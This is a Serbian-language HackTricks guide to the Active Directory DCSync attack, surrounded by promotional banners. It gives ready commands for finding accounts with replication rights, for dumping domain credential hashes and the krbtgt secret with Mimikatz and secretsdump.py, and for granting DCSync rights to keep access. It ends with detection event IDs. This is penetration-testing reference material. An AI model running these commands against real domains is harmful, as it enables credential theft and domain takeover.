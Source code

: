 # DCSync

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako kreirali i **automatizovali radne tokove** pokretane najnaprednijim alatima zajednice.\
Pristupite danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## DCSync

Dozvola **DCSync** implicira posedovanje ovih dozvola nad samim domenom: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** i **Replicating Directory Changes In Filtered Set**.

**Važne napomene o DCSync-u:**

* **DCSync napad simulira ponašanje kontrolera domena i traži od drugih kontrolera domena da repliciraju informacije** koristeći protokol za udaljenu replikaciju direktorijuma (MS-DRSR). Budući da je MS-DRSR validna i neophodna funkcija Active Directory-ja, ne može se isključiti ili onemogućiti.
* Podrazumevano, samo grupe **Domain Admins, Enterprise Admins, Administrators i Domain Controllers** imaju potrebne privilegije.
* Ako su lozinke bilo kog naloga sačuvane sa reverzibilnom enkripcijom, opcija u Mimikatz-u omogućava vraćanje lozinke u čistom tekstu

### Enumeracija

Proverite ko ima ove dozvole koristeći `powerview`:

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

### Iskoristi lokalno

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Iskoristi udaljeno

```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```

`-just-dc` generiše 3 datoteke:

* jednu sa **NTLM heševima**
* jednu sa **Kerberos ključevima**
* jednu sa lozinkama u obliku čistog teksta iz NTDS-a za naloge postavljene sa [**reversible encryption**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) omogućenim. Možete dobiti korisnike sa reverzibilnom enkripcijom pomoću

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

### Upornost

Ako ste admin domena, možete dodeliti ova ovlašćenja bilo kom korisniku uz pomoć `powerview`:

```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

Zatim možete **proveriti da li je korisnik pravilno dodeljen** 3 privilegije tražeći ih u izlazu (trebalo bi da možete videti imena privilegija unutar polja "ObjectType"):

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

### Mitigacija

* Sigurnosni događaj ID 4662 (Potrebno je omogućiti reviziju politike za objekat) – Izvršena je operacija na objektu
* Sigurnosni događaj ID 5136 (Potrebno je omogućiti reviziju politike za objekat) – Modifikovan je objekat u direktorijumskoj usluzi
* Sigurnosni događaj ID 4670 (Potrebno je omogućiti reviziju politike za objekat) – Dozvole na objektu su promenjene
* AD ACL Skener - Kreirajte i uporedite izveštaje o ACL-ovima. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## Reference

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da lako kreirate i **automatizujete radne tokove** pokretane najnaprednijim alatima zajednice na svetu.\
Pristupite danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
